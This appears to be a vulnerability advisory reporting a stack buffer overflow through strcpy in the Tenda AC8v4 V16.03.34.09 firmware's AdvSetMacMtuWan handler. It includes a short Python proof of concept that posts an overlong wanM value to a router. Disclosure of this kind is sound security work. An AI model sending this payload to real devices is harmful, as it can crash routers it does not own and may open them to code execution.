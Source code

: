 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3683.html

## Affected version

AC8v4 V16.03.34.09

## Vulnerability details

The Tenda AC8v4 V16.03.34.09 firmware has a stack overflow vulnerability in the `fromAdvSetMacMtuWan` function. In the function `sub_458FBC`, the `v4, v5, v6, v7, v8, v9` variable receives the `wanMTU, wanSpeed, cloneType, mac, serviceName, serverName` parameter from a POST request and is later assigned to the function `strcpy`, which can cause a buffer overflow. The user-provided  parameters can exceed the capacity of the `a3` array, triggering this security vulnerability.

![image-20240415133939372](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240415133939372.png)

![image-20240415134045910](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240415134045910.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/AdvSetMacMtuWan"
payload = "a"*1000

data = {"wanM": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240415125733742](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240415125733742.png)
